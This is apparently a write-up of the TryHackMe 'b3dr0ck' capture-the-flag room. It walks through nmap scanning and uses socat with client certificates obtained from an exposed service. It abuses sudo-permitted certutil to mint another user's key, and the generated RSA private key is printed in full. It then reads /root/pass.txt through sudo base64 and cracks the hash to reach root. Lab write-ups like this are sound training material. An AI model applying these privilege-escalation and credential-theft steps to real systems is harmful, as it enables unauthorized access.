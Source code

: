 ```yaml
---
title: Walkthrough - b3dr0ck
published: true
---
```


Tags: CTF, TLS, socat, sockets.
Description: Server trouble in Bedrock.
Difficulty: Easy
URL: [https://tryhackme.com/room/b3dr0ck](https://tryhackme.com/room/b3dr0ck)

* * *

## Notes

> Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...
> - He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
> - There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
> - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
> - Can you find all the Easter eggs?

Step one perform initial nmap scan `sudo nmap -Pn -sS -T4 -p- 10.10.77.166 -vvv` then enumerate further `sudo nmap -sC -sV -sT -Pn -O 10.10.77.166 -p22,80,4040,9009,54321`

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1a:c7:00:71:b6:65:f5:82:d8:24:80:72:48:ad:99:6e (RSA)
|   256 3a:b5:25:2e:ea:2b:44:58:24:55:ef:82:ce:e0:ba:eb (ECDSA)
|_  256 cf:10:02:8e:96:d3:24:ad:ae:7d:d1:5a:0d:c4:86:ac (ED25519)
80/tcp    open  http         nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://10.10.77.166:4040/
|_http-server-header: nginx/1.18.0 (Ubuntu)
4040/tcp  open  ssl/yo-main?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     <h1>Welcome to ABC!</h1>
|     <p>Abbadabba Broadcasting Compandy</p>
|     <p>We're in the process of building a website! Can you believe this technology exists in bedrock?!?</p>
|     <p>Barney is helping to setup the server, and he said this info was important...</p>
|     <pre>
|     Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
|     Bamm Bamm tried to setup a sql database, but I don't see it running.
|     Looks like it started something else, but I'm not sure how to turn it off...
|     said it was from the toilet and OVER 9000!
|_    Need to try and secure
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2022-08-30T15:55:13
|_Not valid after:  2023-08-30T15:55:13
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
9009/tcp  open  pichat?
| fingerprint-strings:
|   NULL:
 __          __  _                            _                   ____   _____
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|

|_    What are you looking for?
54321/tcp open  ssl/unknown
```

Port 9009 we can ask for a cert and a private key and it will be given. The service is the TCP socket that was listening with the simple service for us to retrieve the TLS credential files. Now we have to find the other TCP (TLS) helper service listening for authorized connections using these files we obtained.

Going back into the 9009 service and asking for help gets us another hint using this command we can connect to the service on 54321. `socat stdio ssl:10.10.77.166:54321,cert=9009.cert,key=9009.rsa,verify=0`

```

 __     __   _     _             _____        _     _             _____        _
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)



Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```

* * * 

## What is the barney.txt flag?

We can SSH into the server with the above credentials and get barneys flag.

![0xskar](/assets/b3dr0ck01.png)

```
barney@b3dr0ck:~$ sudo -l
[sudo] password for barney:
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

```
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$ sudo /usr/bin/certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Aug 30 15:55 barney.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 30 15:55 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 30 15:55 fred.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 30 15:55 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 fred.serviceKey.pem
```

```
sudo /usr/bin/certutil fred fredflinstone
Generating credentials for user: fred (fredflinstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA6iiIBfgI4xvK3xVnhO1RmhM1hxjc/LDL8S3IN8RcnKvf9qiR
9NAOibBqHbQoYTWDHezR3oCWwEdU7EpLXiiD//qKoo0/+61mRnHXz8w8x5zYc5BT
aVN93AEzgJupfcOCR0fhTEfBzNQ8TfNHI59xQY8/R2prVJbD3QBiEmeNqt4bk8MF
MxaZGW02ZthkRig5VwSun/8WuJO2jSUHmPaetAoucdKnrg1KiYVeT2D3mayY15MX
vFz2Kd4n5j4cJj7hkTCWKtWUG4FKLyp92SRXvtszMsJtf/yEaUTVGDU7lLd1SIwM
OuBNR0Se2/xD2tpZqYLi5GUoDa9XglKqyl+A5QIDAQABAoIBADQbgOmTIKcpcCPk
p3y1MwuOasL9jW/OCBRLk9qVH+bdeKFzMcfA5PtO/s5NYQ8A0YS/RpS1GNcBCKzs
e4kgiv9TybYSqMJg+/mBK/1Z/cyN4r0UyPsPUVq8CbH88eLCtyMVo9VNwprKQAE4
ugP7X0Cvl+1UiT3xrvRnOWvPD3+OMKvbMX46/AmmGs9LLpyv0vOKj1q3yA3tKZSk
El5vXB80oke05h18tvBpPFGkoJPnUUkOjKCsx/bF4arEzLSpRDIMbBwf4SGYPfk3
VBLDgW539CUPkOLQjDP8cNrUYW3gVREITGuFguCLbWJ//Gj6wO2udAb5eo6pv7p0
U+KAnqECgYEA9vCydahMcWXDqQJH7AMOysuNhMMpGDnzpZTclMHKF0qyCS0NdiJp
cZniiQ3hC7JE3Dosl8CfItMFie/1UbUb0SEWDLPe8mGAOd8XltNKiJjFna6TEc+1
gbkuO+A7Zo1yjoYFO/9KCRBt/YT5b5GhKXet7KI8IOTVQAwPDEVF1OcCgYEA8r/I
2T3lo55HmIhErOzDfw5jT/dkVt0um/Y3wUuy36AZEUBucoWNTR7RF1jLStLnk1KO
JCg7f00N1NuhRQKD8cQ1iA0CwbffpkOfhK/GoykCTK/K/P+YDfugjdtXkC3bG4lr
MZ9ltN8ZyoWJ8KKwzJ+oRqDaOJZzU6G5v4p/dlMCgYBCcqRi2qWvQeXzfYSi8nOx
iDKNjgJp3XY9kSAF+1uJBvV/WJsttbbP9cuqe4yaHB9Bb3n+X7uyoDv2URafJO/W
R2PqiSAt8qSRbgGn+TUuKoXKl2ZFvbGmtZDGVeFGCDvSNCgGa/ydEcm3FWgVaIeI
ZAbuDP3HECx97oDCGYXf8wKBgQDXPkUak+7OQOedEZ9Lcfj67UgUPPnEqATPF+hi
RfwKnAv+JxKIC3G6Y0vllr9TzmS2VephlycCftF333NFHLDgLCmHRHogSSlPZQDK
B45rWE6IrwufgAdUxrybbFVdK7vv086vxnXJhlV5JSWlsKxyFFOCpNg6evUxv+JT
O7w/rwKBgHn/eV2jiqJISerDABd7RcHhIClNcNZJsgVm5Vq26OnMwRDeQuu9yhux
QlQPJnT24MF1lZtWLGMyCfHcULC6pUzNMVH42v8SOxghmUpSpxbuRhBWDhPvwLgh
G4sf3uOyIl5n/X+CB5LKK4si8+cbuiX5AGqfKE328PlhsdgnLtO7
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICoTCCAYkCAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA4MzAxNjU2MjVaFw0yMjA4MzExNjU2MjVaMBgxFjAUBgNVBAMMDWZy
ZWRmbGluc3RvbmUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDqKIgF
+AjjG8rfFWeE7VGaEzWHGNz8sMvxLcg3xFycq9/2qJH00A6JsGodtChhNYMd7NHe
gJbAR1TsSkteKIP/+oqijT/7rWZGcdfPzDzHnNhzkFNpU33cATOAm6l9w4JHR+FM
R8HM1DxN80cjn3FBjz9HamtUlsPdAGISZ42q3huTwwUzFpkZbTZm2GRGKDlXBK6f
/xa4k7aNJQeY9p60Ci5x0qeuDUqJhV5PYPeZrJjXkxe8XPYp3ifmPhwmPuGRMJYq
1ZQbgUovKn3ZJFe+2zMywm1//IRpRNUYNTuUt3VIjAw64E1HRJ7b/EPa2lmpguLk
ZSgNr1eCUqrKX4DlAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAHO163Qf3drbAeD6
bESefzUllv1Cqgs5vo/Ku4TuiZLAnpHnL9HUHaE29V/3vqJXyc/vzxxdBXqgjfq5
J1letQ5U56D0AJJhH114hh4RKe4EHn83Bl9E/AZ9hETTpDQ3N4a9sDs2/4B/hl8U
ZB3nzAnZQsESCjUWInjiqq8m6HoluJY8lO24jJ007Hbgw5+BGj496niufOvOf2df
8AX6P66idebbFgjLiM5rmo5hFQW0kBiEJy0b+E/nUGtJvabgePHBoQ4BC9NjaqIH
3+HVMnjmFUmN1/Sy3cEz0qWrmwFFQo+0VVi6Lx4a8EHck241VJ0+K7zLVysDgvov
mBJmhsM=
-----END CERTIFICATE-----
```

* * * 

## What is fred's password?

- We can use the above certs to socat into the 54321 and get freds password.

* * * 

## What is the fred.txt flag?

![0xskar](/assets/b3dr0ck02.png)

* * * 

## What is the root.txt flag?

```
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

Decode from base64 to base32 to md5 and throw it at crackstation to get root password then su

![0xskar](/assets/b3dr0ck03.png)

* * * 